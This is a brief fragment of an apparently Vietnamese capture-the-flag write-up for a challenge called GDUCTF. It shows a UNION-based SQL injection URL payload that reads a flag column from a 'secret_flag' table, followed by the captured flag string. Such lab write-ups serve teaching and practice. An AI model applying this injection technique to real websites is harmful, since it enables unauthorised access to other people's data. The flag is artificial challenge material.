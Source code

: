 Lấy flag 

```
/item?id=1+union+select+1,2,flag,4+FROM+secret_flag--+-
```

![image-20230308150518089](./assets/image-20230308150518089.png)

**Flag: GDUCTF{Le4rn_qu3ry_w1th_SQL_Inj3ct10n_____}**